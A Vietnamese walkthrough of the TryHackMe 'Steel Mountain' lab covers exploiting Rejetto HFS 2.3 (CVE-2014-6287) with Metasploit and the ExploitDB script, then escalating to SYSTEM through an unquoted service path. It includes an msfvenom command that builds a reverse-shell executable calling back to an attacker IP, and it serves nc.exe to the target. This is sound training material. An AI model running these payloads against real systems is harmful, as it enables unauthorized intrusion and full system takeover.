


import { Aside } from 'astro-pure/user'

<Aside type="note" title='Thông tin về Steel Mountain'>
Trong lab này sẽ thực hiện thu thập thông tin máy Windows, chiếm quyền truy cập ban đầu với [_**Metasploit**_](https://www.metasploit.com/), sử dụng **Power Shell** để tiếp tục thu thập thông tin của máy và leo thang đặc quyền lên _**Administrator**_.

[Link lab](https://tryhackme.com/room/steelmountain)
</Aside>

## Truy cập ban đầu

Khi truy cập mục tiêu, giao diện trang web chứa hình ảnh của `Employee of the month`.


Mở `Page Source`, theo tên ảnh thì người này tên `Bill Harper`


Tiếp theo, mình thực hiện scan các port của mục tiêu này và phát hiện thêm một port chạy `HttpFileServer httpd 2.3 (8080)`

```shell
PORT      STATE SERVICE            VERSION
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
```

Tìm kiếm một chút thì `HFS` còn được gọi là `Rejetto HTTP File Server`, đây là một ứng dụng mã nguồn mở biến máy tính trở thành một `File Server` dựa trên web để chia sẻ file mà không cần một kết nối mạng lâu dài hoặc cài đặt thêm phần mềm nào trên thiết bị nhận.

Và ở phiên bản `Rejetto 2.3` này tồn tại một lỗ hổng được báo cáo trong `CVE-2014-6287` dẫn tới kiểm soát quyền truy cập.

Sử dụng công cụ `Metasploit` có module `exploit/windows/http/rejetto_hfs_exec` hỗ trợ khai thác lỗ hổng này.


Các thông số của module này như sau:


Sau khi khai thác thành công, mình chiếm được quyền truy cập vào người dùng `bill`.



Flag sẽ được đặt tại thư mục `Desktop` của người dùng này.


## Leo thang đặc quyền

Để thu thập thông tin về máy này, mình upload một powershell script có tên là [_PowerUp_](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1), đây là file với mục đích đánh giá máy Windows và xác định xem có điều gì bất thường hay không.


Khi thực thi script có service tên `AdvancedSystemCareService9` là `Unquoted Service Paths`, có nghĩa là đường dẫn có khoảng trắng nhưng không có dấu ngoặc kép.

Tại thư mục `C:\` người dùng bình thường có quyền ghi file và `CanRestart` được đặt thành `true` có nghĩa là có thể khởi động lại ứng dụng này thay vì phải khởi động lại máy.


Từ thông tin thu thập được, mình có thể đổi ứng dụng đã được cấu hình thành ứng dụng độc hại của mình để có thể leo thang đặc quyền lên `SYSTEM`.

<Aside type="tip" title='Phương thức tấn công'>
Nếu đường dẫn có khoảng trắng mà không có dấu ngoặc kép.

Ở đây là `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`.

Thì Windows sẽ thực hiện thêm `.exe` vào các khoảng trắng và thực thi nó theo từng phần:

1. `C:\Program.exe`
2. `C:\Program Files.exe`
3. `C:\Program Files (x86)\IObit\Advanced.exe`

Và cuối cùng là `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`

Khi này mình tạo một file độc hại tên `Advanced.exe` đặt trong thư mục `C:\Program Files (x86)\IObit\` để khi Windows đến bước 3 sẽ tiến hành thực thi file này.
</Aside>

Trong công cụ đi kèm của `Metasploit` - `msfvenom` mình sẽ tạo một ứng dụng tên `Advanced.exe` mở một `reverse shell` về máy mình.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.67.204 LPORT=7304 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Sau đó, mình chuyển file này vào thư mục `C:\Program Files (x86)\IObit`.


Mở một session khác cho `msfconsole` sử dụng module `exploit/multi/handler` với payload `windows/shell_reverse_tcp` để tạo 1 listener lắng nghe khi máy bị tấn công kết nối vào.


Cuối cùng mình khởi động lại dịch vụ `AdvancedSystemCareService9`, khi đó máy này sẽ chạy ứng dụng độc hại mà mình đã tạo, kết nối tới listener và mình đã leo thang đặc quyền lên `SYSTEM`.


Có được quyền `SYSTEM` đồng nghĩa mình có toàn quyền trong hệ thống này và mình tìm thấy flag của root tại thư mục `Desktop` của `Administrator`.


## Truy cập và leo thang đặc quyền không dùng Metasploit

Thay vì sử dụng công cụ Metasploit để khai thác tự động, có thể khai thác bằng cách khác.

Tại đây mình sử dụng file python khai thác trên [ExploitDB](https://www.exploit-db.com/exploits/39161).

Một số yêu cầu của file để nó có thể khai thác thành công như sau:

- Host 1 web server bên trong có file [nc.exe](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe).
- Sẽ phải chạy file nhiều lần và lần đầu là để chuyển `nc.exe` sang máy bị tấn công.

Như vậy, mình đã mở một `Simple HTTP Server` bằng python3 và khi thực thi file nó đã tải `nc.exe` từ máy mình sang máy có lỗ hổng.



Đồng thời mình cũng sẽ mở một `netcat listener` ở port `7304` để khi khai thác thành công nó sẽ kết nối vào đây.


Mình đã có quyền truy cập vào `Bill` như cũ. 

Tiếp theo, để thực hiện leo thang đặc quyền lên `SYSTEM` mình thực hiện thu thập thông tin bằng công cụ `winPEAS`.


Công cụ này đã phát hiện lỗ hổng tại service `AdvancedSystemCareService9` cho phép `WriteData/CreateFiles`.


Từ đây các bước thực hiện như cũ, sử dụng công cụ `msfvenom` để tạo phần mềm độc hại kết nối tới listener.

Listener mình sẽ sử dụng `netcat` với các tùy chọn `-lvnp` thay vì dùng module của `Metasploit` như trước và mình đã leo thang đặc quyền lên `SYSTEM`.


